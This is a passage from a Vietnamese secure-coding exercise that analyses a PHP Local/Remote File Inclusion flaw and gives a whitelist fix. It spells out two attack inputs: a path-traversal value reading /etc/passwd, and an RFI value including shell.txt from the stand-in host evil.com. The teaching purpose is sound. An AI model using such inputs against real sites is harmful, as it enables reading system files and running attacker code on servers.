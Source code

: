     <form method="post">
        Search Term: <input type="text" name="search_term">
        <input type="submit" value="Search Log">
    </form>
    ```

**Bài tập 5.2: Phân tích Code (File Inclusion)**

* **Kiến thức vận dụng:** Hiểu về lỗ hổng Local File Inclusion (LFI) và Remote File Inclusion (RFI) khi đường dẫn file trong `include` hoặc `require` bị kiểm soát bởi người dùng mà không có validation chặt chẽ. (Chapter 5, `[source: 1004]`, `[source: 1126]`).
* **Phân tích & Áp dụng:** Biến `$page` được lấy trực tiếp từ `$_GET['p']` và nối chuỗi vào đường dẫn file include. Kẻ tấn công có thể cung cấp `p=../../../../etc/passwd` (LFI) để đọc file hệ thống, hoặc nếu `allow_url_include=On` (rất nguy hiểm, mặc định Off) thì có thể cung cấp `p=http://evil.com/shell.txt?` (RFI) để include mã độc từ xa.
* **Lời giải (Phân tích & Cách sửa):**
    * **Lỗ hổng:** Local File Inclusion (LFI) và tiềm ẩn Remote File Inclusion (RFI) nếu `allow_url_include=On`. Kẻ tấn công kiểm soát hoàn toàn biến `$page` được dùng để xây dựng đường dẫn file include.
    * **Cách sửa (Whitelist):** Phương pháp an toàn nhất là sử dụng whitelist để giới hạn các giá trị hợp lệ cho `$page`.
        ```php
        <?php
        $allowed_pages = [
            'home' => 'pages/home.html',
            'about' => 'pages/about.html',
            'contact' => 'pages/contact.html'
            // Thêm các trang hợp lệ khác vào đây
        ];

        // Lấy giá trị 'p', mặc định là 'home'
        $page_key = $_GET['p'] ?? 'home';

        // Kiểm tra xem page_key có trong whitelist không
        // [source: 413] (Chương 2) - Nguyên tắc chỉ cho phép input dự kiến
        if (array_key_exists($page_key, $allowed_pages)) {
            $file_to_include = $allowed_pages[$page_key];

            // (Optional but recommended) Kiểm tra file tồn tại trước khi include
            if (file_exists($file_to_include)) {
                 // [source: 1087] - Nguy cơ include file ngay cả khi ngoài webroot
                 // Cần đảm bảo file được include là file dự kiến
                 include($file_to_include);
            } else {
                // Xử lý lỗi: file không tồn tại
                error_log("Include file not found: " . $file_to_include);
                include('pages/error_404.html'); // Hoặc trang lỗi chung
            }
        } else {
            // Xử lý lỗi: trang không hợp lệ
            include('pages/error_404.html'); // Hoặc trang lỗi chung
        }
        ?>
        ```
